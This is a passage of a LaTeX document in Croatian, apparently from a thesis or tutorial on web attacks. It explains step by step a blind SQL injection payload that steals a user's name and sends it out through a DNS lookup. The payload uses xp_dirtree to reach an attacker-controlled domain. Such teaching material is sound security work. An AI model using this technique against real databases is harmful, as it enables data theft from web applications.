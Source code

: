 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{bsqli_payd.jpg}
		\caption{URL dekodiran maliciozna SQL naredba} \label{fig:bsqli_payd}
	\end{center}
\end{figure}

Ova maliciozna naredba se sastoji od više SQL naredbi. U prvoj liniji se nalazi jednostruki navodnik \texttt{'} i točka zarez \texttt{;}, koji služe da se završi SQL upit na serveru kojim se dohvaćaju detalji korisnika na osnovu kolačića. U drugom SQL upitu se deklarira varijabla \texttt{@p} tipa \texttt{varchar}. Zatim se u sljedećem SQL upitu za vrijednost varijable \texttt{@p} postavlja SQL upit kojim se dohvaća korisničko ime korisnika sa identifikacijskim brojem 2. Tablica nad kojom napadač dohvaća podatke korisnika sa identifikacijskim brojem 2 je prikazana na slici \ref{fig:bsqli_usrs}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.5\textwidth]{bsqli_usrs.jpg}
		\caption{Tablica iz koje se dohvaćaju podatci} \label{fig:bsqli_usrs}
	\end{center}
\end{figure}

Na kraju se u zadnjem SQL upitu s naredbom \texttt{exec('master..xp\_dirtree"//YOUR-URL"')} generira DNS upit na zadani URL. Napadač kreira željeni URL tako da se podatci koji se izvlače iz baze podataka stavljaju na mjesto poddomene. Podatci koji se žele izvući iz baze podataka su spremljeni u varijablu \texttt{@p}. Za domenu, napadač postavlja domenu za koju ima postavljeni DNS server, što znači da u ovom slučaju domena glasi \texttt{foo.arrdub.net}. Iza domene se stavlja stranica \texttt{a} koja ne postoji, ali će se zato ona zatražiti preko DNS upita koji će ostaviti trag. Posljednji SQL upit je zaključen s točkom zarez \texttt{;} i dva minusa \texttt{--} kojima se završava SQL upi te komentira bilo koji dio originalnog SQL upita koji bi moga spriječiti izvođenje napada.

}
\end{document}
